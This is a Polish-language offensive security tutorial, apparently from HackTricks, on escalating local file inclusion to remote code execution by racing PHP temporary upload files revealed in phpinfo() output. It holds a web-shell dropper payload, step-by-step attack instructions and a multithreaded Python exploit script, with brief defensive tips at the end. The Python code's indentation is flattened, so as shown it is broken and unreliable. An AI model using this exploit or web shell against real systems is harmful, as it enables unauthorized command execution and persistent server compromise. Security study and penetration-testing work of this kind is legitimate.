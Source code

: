 # LFI to RCE via PHPInfo

{{#include ../../banners/hacktricks-training.md}}

Aby wykorzystać tę technikę potrzebujesz wszystkich następujących elementów:
- Dostępnej strony, która wypisuje wynik phpinfo().
- Sterowalnego Local File Inclusion (LFI) primitive (np. include/require na danych wejściowych użytkownika).
- Włączonego przesyłania plików w PHP (file_uploads = On). Każdy skrypt PHP zaakceptuje RFC1867 multipart uploads i utworzy tymczasowy plik dla każdej przesłanej części.
- Proces PHP musi móc zapisywać do skonfigurowanego upload_tmp_dir (lub domyślnego katalogu tymczasowego systemu), a twoje LFI musi móc include tę ścieżkę.

Klasyczne opracowanie i oryginalny PoC:
- Whitepaper: LFI with PHPInfo() Assistance (B. Moore, 2011)
- Nazwa oryginalnego skryptu PoC: phpinfolfi.py (zob. whitepaper i mirrors)

Tutorial HTB: https://www.youtube.com/watch?v=rs4zEwONzzk&t=600s

Uwagi dotyczące oryginalnego PoC
- Wynik phpinfo() jest zakodowany w HTML, więc strzałka "=>" często pojawia się jako "=&gt;". Jeśli używasz starych skryptów, upewnij się, że szukają obu form kodowania przy parsowaniu wartości _FILES[tmp_name].
- Musisz dostosować payload (twój kod PHP), REQ1 (żądanie do endpointu phpinfo() wraz z paddingiem) oraz LFIREQ (żądanie do twojego LFI sink). Niektóre cele nie potrzebują terminatora null-byte (%00) i nowoczesne wersje PHP go nie respektują. Dostosuj LFIREQ odpowiednio do podatnego sinku.

Przykładowe sed (tylko jeśli naprawdę używasz starego PoC w Python2) do dopasowania strzałki zakodowanej w HTML:
```
sed -i 's/\[tmp_name\] =>/\[tmp_name\] =&gt;/g' phpinfolfi.py
```
## Teoria

- Kiedy PHP otrzymuje multipart/form-data POST z polem pliku, zapisuje zawartość do pliku tymczasowego (upload_tmp_dir lub domyślne dla OS) i ujawnia ścieżkę w $_FILES['<field>']['tmp_name']. Plik jest automatycznie usuwany na końcu żądania, chyba że zostanie przeniesiony/zmieniony.
- Sztuczka polega na poznaniu nazwy pliku tymczasowego i dołączeniu jej za pomocą LFI zanim PHP ją usunie. phpinfo() wypisuje $_FILES, w tym tmp_name.
- Poprzez powiększanie nagłówków/parametrów żądania (padding) możesz spowodować, że wczesne fragmenty wyjścia phpinfo() zostaną wysłane do klienta zanim żądanie się zakończy, dzięki czemu możesz odczytać tmp_name, gdy plik tymczasowy nadal istnieje, a następnie natychmiast trafić w LFI z tą ścieżką.

W Windows pliki tymczasowe zwykle znajdują się w katalogu takim jak C:\\Windows\\Temp\\php*.tmp. W Linux/Unix zwykle są w /tmp lub w katalogu skonfigurowanym w upload_tmp_dir.

## Przebieg ataku (krok po kroku)

1) Przygotuj mały PHP payload, który szybko utrwali shell, aby nie przegrać race (zapis pliku jest zazwyczaj szybszy niż oczekiwanie na reverse shell):
```
<?php file_put_contents('/tmp/.p.php', '<?php system($_GET["x"]); ?>');
```
2) Wyślij duży multipart POST bezpośrednio do strony phpinfo(), aby utworzyła plik tymczasowy zawierający twój payload. Nadmuchaj różne headers/cookies/params z ~5–10KB paddingu, aby zachęcić do wcześniejszego outputu. Upewnij się, że nazwa pola formularza pasuje do tego, co będziesz parsować w $_FILES.

3) Gdy odpowiedź phpinfo() wciąż się streamuje, parsuj częściowe body, aby wyciągnąć $_FILES['<field>']['tmp_name'] (HTML-encoded). Jak tylko masz pełną ścieżkę absolutną (np. /tmp/php3Fz9aB), wywołaj swoje LFI, żeby include() tę ścieżkę. Jeśli include() wykona plik tymczasowy zanim zostanie on usunięty, twój payload uruchomi się i utworzy /tmp/.p.php.

4) Użyj utworzonego pliku: GET /vuln.php?include=/tmp/.p.php&x=id (lub tam, gdzie twój LFI pozwala na jego include) aby niezawodnie wykonywać polecenia.

> Wskazówki
> - Użyj wielu równoległych workerów, aby zwiększyć szanse na wygranie wyścigu.
> - Umiejscowienie paddingu, które często pomaga: URL parameter, Cookie, User-Agent, Accept-Language, Pragma. Dostosuj do celu.
> - Jeśli podatny sink dopisuje rozszerzenie (np. .php), nie potrzebujesz null byte; include() wykona PHP niezależnie od rozszerzenia pliku tymczasowego.

## Minimalny PoC Python 3 (oparty na socketach)

Poniższy fragment skupia się na kluczowych częściach i jest łatwiejszy do zaadaptowania niż przestarzały skrypt Python2. Dostosuj HOST, PHPSCRIPT (phpinfo endpoint), LFIPATH (ścieżka do LFI sink), oraz PAYLOAD.
```python
#!/usr/bin/env python3
import re, html, socket, threading

HOST = 'target.local'
PORT = 80
PHPSCRIPT = '/phpinfo.php'
LFIPATH = '/vuln.php?file=%s'  # sprintf-style where %s will be the tmp path
THREADS = 10

PAYLOAD = (
"<?php file_put_contents('/tmp/.p.php', '<?php system($_GET[\\"x\\"]); ?>'); ?>\r\n"
)
BOUND = '---------------------------7dbff1ded0714'
PADDING = 'A' * 6000
REQ1_DATA = (f"{BOUND}\r\n"
f"Content-Disposition: form-data; name=\"f\"; filename=\"a.txt\"\r\n"
f"Content-Type: text/plain\r\n\r\n{PAYLOAD}{BOUND}--\r\n")

REQ1 = (f"POST {PHPSCRIPT}?a={PADDING} HTTP/1.1\r\n"
f"Host: {HOST}\r\nCookie: sid={PADDING}; o={PADDING}\r\n"
f"User-Agent: {PADDING}\r\nAccept-Language: {PADDING}\r\nPragma: {PADDING}\r\n"
f"Content-Type: multipart/form-data; boundary={BOUND}\r\n"
f"Content-Length: {len(REQ1_DATA)}\r\n\r\n{REQ1_DATA}")

LFI = ("GET " + LFIPATH + " HTTP/1.1\r\nHost: %s\r\nConnection: close\r\n\r\n")

pat = re.compile(r"\\[tmp_name\\]\\s*=&gt;\\s*([^\\s<]+)")


def race_once():
s1 = socket.socket()
s2 = socket.socket()
s1.connect((HOST, PORT))
s2.connect((HOST, PORT))
s1.sendall(REQ1.encode())
buf = b''
tmp = None
while True:
chunk = s1.recv(4096)
if not chunk:
break
buf += chunk
m = pat.search(html.unescape(buf.decode(errors='ignore')))
if m:
tmp = m.group(1)
break
ok = False
if tmp:
req = (LFI % tmp).encode() % HOST.encode()
s2.sendall(req)
r = s2.recv(4096)
ok = b'.p.php' in r or b'HTTP/1.1 200' in r
s1.close(); s2.close()
return ok

if __name__ == '__main__':
hit = False
def worker():
nonlocal_hit = False
while not hit and not nonlocal_hit:
nonlocal_hit = race_once()
if nonlocal_hit:
print('[+] Won the race, payload dropped as /tmp/.p.php')
exit(0)
ts = [threading.Thread(target=worker) for _ in range(THREADS)]
[t.start() for t in ts]
[t.join() for t in ts]
```
## Rozwiązywanie problemów
- Nigdy nie widzisz tmp_name: Upewnij się, że naprawdę wysyłasz POST multipart/form-data do phpinfo(). phpinfo() wypisuje $_FILES tylko gdy pole przesyłania pliku było obecne.
- Wyjście nie jest wysyłane wcześnie: zwiększ padding, dodaj więcej dużych nagłówków lub wyślij wiele równoległych żądań. Niektóre SAPI/bufory nie wypuszczają danych aż do osiągnięcia większych progów; dostosuj odpowiednio.
- Ścieżka LFI zablokowana przez open_basedir lub chroot: musisz skierować LFI na dozwoloną ścieżkę lub przełączyć się na inny wektor LFI2RCE.
- Katalog tymczasowy nie jest /tmp: phpinfo() wypisuje pełną absolutną ścieżkę tmp_name; użyj tej dokładnej ścieżki w LFI.

## Wskazówki obronne
- Nigdy nie udostępniaj phpinfo() w środowisku produkcyjnym. Jeśli konieczne, ogranicz dostęp po IP/uwierzytelnieniu i usuń po użyciu.
- Trzymaj file_uploads wyłączone jeśli nie są potrzebne. W przeciwnym razie ogranicz upload_tmp_dir do ścieżki niedostępnej dla include() w aplikacji i wymuszaj ścisłą walidację wszystkich ścieżek include/require.
- Traktuj każde LFI jako krytyczne; nawet bez phpinfo(), istnieją inne ścieżki LFI→RCE.

## Powiązane techniki HackTricks

{{#ref}}
lfi2rce-via-temp-file-uploads.md
{{#endref}}

{{#ref}}
via-php_session_upload_progress.md
{{#endref}}

{{#ref}}
lfi2rce-via-nginx-temp-files.md
{{#endref}}

{{#ref}}
lfi2rce-via-eternal-waiting.md
{{#endref}}



## Referencje
- LFI With PHPInfo() Assistance whitepaper (2011) – Packet Storm mirror: https://packetstormsecurity.com/files/download/104825/LFI_With_PHPInfo_Assitance.pdf
- PHP Manual – POST method uploads: https://www.php.net/manual/en/features.file-upload.post-method.php
{{#include ../../banners/hacktricks-training.md}}
